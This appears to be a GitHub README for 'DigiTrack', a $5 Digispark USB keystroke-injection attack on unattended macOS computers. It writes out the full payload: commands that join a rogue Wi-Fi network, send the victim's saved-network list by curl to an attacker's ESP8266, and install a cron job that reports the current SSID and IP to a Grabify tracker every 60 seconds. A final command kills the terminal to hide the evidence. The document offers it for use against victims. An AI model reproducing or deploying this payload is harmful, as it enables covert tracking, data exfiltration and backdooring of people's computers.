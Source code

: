 # DigiTrack

In 30 seconds, this attack can learn which networks a MacOS computer has connected to before, and plant a script that tracks the current IP address and Wi-Fi network every 60 seconds.

![alt text](https://i.imgur.com/jtD7OcZ.jpg "ESP8266 & Digispark")

## Now includes: Hardtracker - Digispark VPN buster to send the IP address and BSSID/SSID of nearby Wi-Fi networks on a MacOS computer to a Grabify tracker every 60 seconds.

This is a $5 attack that does a couple things:

1) Inserts a Wi-Fi backdoor onto a victim computer, allowing you to capture the victim's data connection at any time when you are in Wi-Fi range.
2) Steals a list of every network the victim has ever connected to (for tracking, classifying, and hijacking data connection)
3) Inserts a tracking job that send the IP address and currently connected network to a Grabify link every 60 seconds.


Attack goes: A victim leaves a MacOS computer unattended for 30 seconds. The attacker inserts a DigiSpark board loaded with an attack payload. The payload looks like this (with delays and single key strokes removed):


 ### DigiKeyboard.print("networksetup -setairportnetwork en0 'sneakernet' 00000000"); 
  - We add the network "Sneakernet" to our trusted network list and connect to it.
  
###  DigiKeyboard.print("curl -m 10 --silent --output /dev/null -X POST -H \"Content-Type: text/plain\" --data \"$(networksetup -listpreferredwirelessnetworks en0)\" 192.168.4.1 &");
  - After connecting, we send a CURL request listing every single network the MacOS computer has connected to in the past to the esp8266 creating the "Sneakernet" network. The & puts the process in the background in case it takes too long, and the -m sets a timer of 10 seconds to prevent it taking too long. Now we know which Wi-Fi networks the victim has joined, and which networks will force the computer to connect without asking.
  
###  DigiKeyboard.print("export VISUAL=nano; crontab -e");
  - We create a job that will execute every 60 seconds
  
 ### DigiKeyboard.print("* * * * * curl --silent --output /dev/null --referer \"$(/System/Library/PrivateFrameworks/Apple80211.framework/Versions/Current/Resources/airport -I | awk '/ SSID/ {print substr($0, index($0, $2))}')\"  https://grabi/YOURLINK");
 - We suppress the output of CURL, and grab the network name of the currently connected Wi-Fi network. We sent this along with a CURL request to a tracking URL, delivering the target's IP address and currently connected Wi-Fi network every 60 seconds.
  
###  DigiKeyboard.print("wait && kill -9 $(ps -p $PPID -o ppid=)");
  - Finally, we wait for all background processes to finish, and kill the shit out of the terminal window to hide the evidence.

Total run time is about 30 seconds, not including the few seconds the Digisparks waits for a sketch to upload.

Notes: Grabify may go into "I'm under attack" mode and not allow checkin. Look for this line:
div class="cf-browser-verification cf-im-under-attack"
  
 If you see it, then the IP address is being blocked by cloudflare.
